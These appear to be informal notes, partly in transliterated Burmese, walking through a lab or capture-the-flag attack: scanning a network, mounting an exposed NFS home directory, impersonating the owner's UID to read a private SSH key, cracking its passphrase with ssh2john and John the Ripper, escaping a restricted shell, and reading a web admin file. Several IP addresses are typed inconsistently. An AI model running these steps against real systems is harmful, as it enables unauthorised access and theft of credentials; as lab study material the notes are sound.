
nmap -sn 192.168.99.1/24 

showmount -e 10.0.1.1     => bal file twe ko sharing loke htar lal

mkdir /tmp/mn      => local machine

sudo mount 10.0.0.1:/home/karl /tmp/mn    => mount loke dar

-----
=> we change to karl user in our local machine 

and then we add user

sudo -s

useradd -m karl  -u 1001

passwd karl

------------
=> and then go to the .ssh file with this user

su karl

ls -al

cd .ssh

** We get user now 

----

cat id_rsa   => and then copy that 

subl key.txt  => and then past here 

chmod 600 key.txt    => we have to change default permission to use this

ssh -i key.txt karl@10.0.01

=> password need to enter => most of the key is not need key 

wget https://github.com/thawkhant/ssh2john.git   => download ssh2john

python ssh2john.py > tocrack.txt

python ssh2john.py key.txt    => working now with his own format

john tocrack.txt --wordlist=/usr/share/wordlists/rockyou.txt  => crack now

we get password now ***

go again to 

ssh -i key.txt karl@10.0.0.1
password

we got with rbash shell  => this shell is littery stupid 
so we change to another one

ssh -i key.txt karl@10.0.01 -t "/bin/sh"  => we change shell file  

*** we get it Lol!

-------
we go go the web service 

cd /var/www/html

cat admin.php   => we saw admin.php

------------------------------------------







